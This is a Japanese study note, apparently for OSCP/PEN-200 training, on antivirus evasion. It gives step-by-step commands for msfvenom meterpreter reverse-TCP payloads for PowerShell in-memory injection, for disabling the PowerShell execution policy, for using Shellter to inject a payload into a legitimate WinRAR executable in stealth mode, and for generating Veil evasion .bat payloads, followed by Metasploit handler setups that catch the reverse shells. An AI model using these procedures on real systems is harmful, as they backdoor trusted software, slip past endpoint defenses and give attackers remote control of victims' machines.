 # AntivirusEvasion

[toc]

ファイル名を変更するだけでも効果がある場合がある

### PowerShell In-Memory Injection

powershellスクリプトを記述する。AVで検知される。kaliの以下に格納した。

```bash
┌──(kali㉿kali)-[~/Documents/tools/powershell]
└─$ ls im-memory.ps1
```

![image-20230105133939946](img/AntivirusEvasion/image-20230105133939946.png)

msfvenomでリバースシェルを作成しps1を更新する。

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$kali LPORT=4444 -f powershell
```

攻撃対象ホストで同様にファイルを作成する。（例: av_test.ps1)

実行する前にExcecutionポリシーを無効化する。

```
powershell
Get-ExecutionPolicy -Scope CurrentUser
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
Get-ExecutionPolicy -Scope CurrentUser
```

### shellter

* インストール

  ```
  apt-cache search shellter
  sudo apt install shellter
  ```

  ```
  sudo su -
  dpkg --add-architecture i386 && apt-get update &&
  apt-get install wine32:i386
  ```

  ```
  mkdir -p ~/myapp/prefix
  export WINEPREFIX=$HOME/myapp/prefix
  export WINEARCH=win32
  export WINEPATH=$HOME/myapp
  wineboot --init
  shellter
  ```

* Aを選択する

  ![image-20230105143437763](img/AntivirusEvasion/image-20230105143437763.png)

* 変更するPEをダウンロードして指定する。

  https://www.rarlab.com/download.htm

  ![image-20230105143533845](img/AntivirusEvasion/image-20230105143533845.png)

  ![Figure 8: Selecting a target PE in shellter and performing a backup](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/imgs/antivirus_evasion/7c49cd2d7e2afd9639c73a1de9b7765a-antivirus_evasion_06.png)

* ステルスモードを有効にする

  ![image-20230105143650976](img/AntivirusEvasion/image-20230105143650976.png)

* ペイロードを選択する

  ![image-20230105143706409](img/AntivirusEvasion/image-20230105143706409.png)

* exeが出来上がるので攻撃対象に配送して、リバースシェルを待ち受けする。

* msfconsoleの場合

  ```
  msfconsole
  msf > use exploit/multi/handler
  msf exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
  msf exploit(multi/handler) > set LHOST 192.168.119.144
  msf exploit(multi/handler) > show options
  msf exploit(multi/handler) > set AutoRunScript post/windows/manage/migrate
  ```

  ※migrateすることでPEのプロセスが終了してシェルを継続可能とする。



### Veil(.batでEvasionファイルを作成可能)

* ダウンロード

```
git clone https://github.com/Veil-Framework/Veil.git
cd Veil/
./config/setup.sh --force --silent
```

* 実行

※~/Documents/tools配下にVeilをダウンロードして実行可能な状態になっている

```
┌──(kali㉿kali)-[~/Documents/tools/Veil]
└─$ ./Veil.py 
Veil>: use Evasion
Veil/Evasion>: use powershell/meterpreter/rev_tcp.py 
[powershell/meterpreter/rev_tcp>>]: set LHOST 192.168.119.144
[powershell/meterpreter/rev_tcp>>]: generate
```

* payloadは自動で.batファイルで作成された。batファイルを移動する

```
mv /var/lib/veil/output/source/17-3-5-6.bat ~/Documents/OSCP/17.AntivirusEvasion/ 
```

* 攻撃対象ホストに転送する

```
割愛
```

* msfconsoleのハンドラーで待ち受け

  ```bash
  msfconsole
  msf > use exploit/multi/handler
  msf exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
  msf exploit(multi/handler) > set LHOST 192.168.119.144
  msf exploit(multi/handler) > show options
  msf exploit(multi/handler) > exploit
  ```

  